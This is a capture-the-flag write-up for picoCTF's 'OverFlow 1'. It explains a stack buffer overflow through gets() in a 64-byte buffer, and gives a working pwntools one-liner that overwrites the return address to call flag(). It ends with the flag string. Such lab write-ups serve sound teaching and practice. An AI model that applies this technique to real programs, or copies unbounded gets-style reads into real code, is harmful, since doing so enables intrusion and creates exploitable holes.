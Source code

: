 # OverFlow 1 

Points : 150

# Question

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](vuln)? You can find it in /problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de on the shell server. [Source](vuln.c).

# Hint 

Take control that return address.
Make sure your address is in Little Endian.

# Solution

By examin the source code we can see that :

```C 
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {						<------- we have this flag function that print the flag
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];					<------- we get buffer size 64
  gets(buf);						<------- the program read our input using gets which is vulnerable to overflow

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();						<------- vuln get call
  return 0;
}
```

the program never call "flag" function so we need to make this happend !
as we know gets is vulnerable to buffer overflow , so if we overflow the stack and change the return adress to "flag" function address then she will get call and print the flag.

our payload need to look like this:

```print 'A'*(BUFFER_SIZE+REGISTERS_SIZE+NEW_RETURN_ADDRESS```

first let's get "flag" function address using gdb

![](overflow1.png)

we can see that the address is "0x080485e6"
so now we can use python with pwn tools and run the exploit ```python -c "from pwn import *; print 'A'*(64+8)+p32(0x080485e6)" | ./vuln```

![](overflow2.png)


# Flag
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5b80c9cbf}

